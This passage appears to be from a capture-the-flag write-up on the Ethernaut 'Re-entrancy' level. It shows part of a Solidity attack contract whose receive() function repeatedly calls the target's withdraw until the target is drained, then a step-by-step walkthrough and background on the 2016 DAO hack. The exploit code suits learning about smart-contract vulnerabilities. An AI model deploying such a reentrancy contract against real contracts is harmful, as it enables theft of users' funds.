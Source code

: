 ```solidity

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate{value: msg.value}(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "it's my money!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call{value: totalBalance}("");
        // require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable { // <== [1]
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) targetContract.withdraw(targetValue);
    }
}
```

Now call `donateAndWithdraw` of `ReentrancyAttack` with value of `1000000000000000 wei` (`0.001 ether`) and chain reaction starts:

- First `targetContract.donate.value(msg.value)(address(this))` causes the `balances[msg.sender]` of `Reentrance` to set to sent amount. `donate` of `Reentrance` finishes it's execution
- Immediately after, `targetContract.withdraw(msg.value)` invokes `withdraw` of `Reentrance`, which sends the same donated amount back to `ReentrancyAttack`.
- `receive` of `ReentrancyAttack` is invoked. Note that `withdraw` hasn't finished execution yet! So still `balances[msg.sender]` is equal to initially donated amount. Now we call `withdraw` of `ReentrancyAttack` again in `receive`.
- Second invocation of `withdraw` executes and it's passes the require statement this time again! So, it sends the `msg.sender` (`ReentrancyAttack` address) that amount again!
- Simple arithmetic plays out and recursive execution is halted only when balance of `Reentrance` is reduced to 0. **[1]**

![](https://miro.medium.com/max/1400/1*HGRY9Lbox56-o9nbCgBepg.jpeg)

**_The DAO Hack_**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942/).

- Check out the full [analysis of the DAO hack](https://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) here.
- To those interested, the Re-entrancy attack was responsible for the [infamous DAO hack of 2016](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao#section-what-is-a-dao) which shook the whole Ethereum community. $60 million dollars of funds were stolen. Later, Ethereum blockchain was hard forked to restore stolen funds, but not all parties consented to decision. That led to splitting of network into distinct chains - Ethereum and Ethereum Classic.
